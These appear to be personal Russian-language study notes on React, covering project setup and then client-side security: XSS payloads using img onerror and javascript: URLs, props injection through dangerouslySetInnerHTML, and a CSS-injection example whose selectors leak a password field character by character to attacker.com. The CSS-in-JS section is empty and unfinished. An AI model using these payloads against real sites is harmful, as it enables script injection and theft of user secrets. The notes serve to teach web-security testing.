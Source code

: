 # React JS

## Создать проект

```
$ npx create-react-app test-project-name
...
Success! Created test-app at /Users/user/JsProjects/test-app
Inside that directory, you can run several commands:

    yarn start
      Starts the development server.
  
    yarn build
      Bundles the app into static files for production.
  
    yarn test
      Starts the test runner.
  
    yarn eject
      Removes this tool and copies build dependencies, configuration files
      and scripts into the app directory. If you do this, you can’t go back!
  
We suggest that you begin by typing:

  cd test-project-name
  yarn start
  
$ cd test-project-name
$ yarn start (or npm start)
```

## Структура проекта

```
node_modules — зависимости
public/index.html — главный html документ (по сути ввсе приложение отрисовывается в компонент с id=root)
package.json — описание зависимостей
index.js — по сути главный исполняемый файл, который отрисовывает компонент App и кладет в root
App.js — внутри видим html-подобный код — это JSX.

Так же в index.js видим в узле scripts команды объяленные: запуск приложения (можно и через yarn) 
npm start
```

## Разработка

У React компонентный подход: то есть создаем отдельные компоненты, а потом их комбинируем

## Интересные пакеты

React Flow — построение графов — [https://reactflow.dev/](https://reactflow.dev/)

## Security

### XSS

В ReactJS встроена защита, от разного рода XSS инъекций (auto escaping):

```jsx
import './App.css';

function App() {
  let XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  return (
    <div className="App">
      <header className="App-header">
        <div>STRING {XSS_PAYLOAD} ESCAPED</div>
      </header>
    </div>
  );
}

export default App;
```

И выглядит это так:

<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="original">

Однако, для разработчиков оставили способ отрисовать html+js в динамике, если это действительно необходимо:

```javascript
function createMarkup() {
  return {__html: 'First &middot; Second'};
}

function MyComponent() {
  return <div dangerouslySetInnerHTML={createMarkup()} />;
}
```

PS:  Ну и всякие documentWrite остаются, конечно:

```javascript
const contentWindow = iframe.contentWindow || iframe.contentDocument.document || iframe.contentDocument

contentWindow.document.open()
contentWindow.document.write(htmlBody)
contentWindow.document.close()
```

### Props Injections

В React есть возможность передать в компонент массив с переопределенными атрибутами. Если атакующий может контролировать этот массив, то он сможет определить ключ атрибута `dangerouslySetInnerHTML` и добавить туда свою нагрузку:

```jsx
import './App.css';

function App() {
  const STRONG_PAYLOAD = "<strong>TEST</strong>";
  const XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  const PROPS_INJ_PAYLOAD = {"dangerouslySetInnerHTML": {"__html": STRONG_PAYLOAD}};
  
  return (
    <div className="App">
      <header className="App-header">
        <div {...PROPS_INJ_PAYLOAD} />
      </header>
    </div>
  );
}

export default App;
```

Один только нюанс: это сработает только в том случае, если в `PROPS_INJ_PAYLOAD` не содержится других ключей, иначе React/Webpack выведут ошибку:&#x20;

![](<../../../../.gitbook/assets/image (1) (1).png>)

### Injectable Attributes

```jsx
import './App.css';

function App() {
    const ATTR_PAYLOAD = "javascript:alert(1)";
    
    return (
        <div className="App">
          <header className="App-header">
              <a href={ATTR_PAYLOAD}>Link</a>
          </header>
        </div>
    );
}

export default App;
```

### CSS in JS

У React есть возможность определять стили для компонентов прямо в JS коде, используя JS синтаксис:

```jsx
```

Короч есть какая-та возможность делать css injection. Но я не разобрался. Надо лезть в документацию и смотреть разницу между class и className (один из них безопасный, другой — нет) и как делать Attribute Injection в эти поля.

### Чем вообще могут помочь инъекции в стили

#### Password stealing

```jsx
<style>
    #form2 input[value^='a'] { background-image:url(https://attacker.com/?a); }
    #form2 input[value^='b'] { background-image:url(https://attacker.com/?b); }
    #form2 input[value^='c'] { background-image:url(https://attacker.com/?c); }
     [...]
 </style>
 <form action="http://example.com" id="form2">
   <input type="text" id="secret" name="secret" value="abc">
 </form>
```
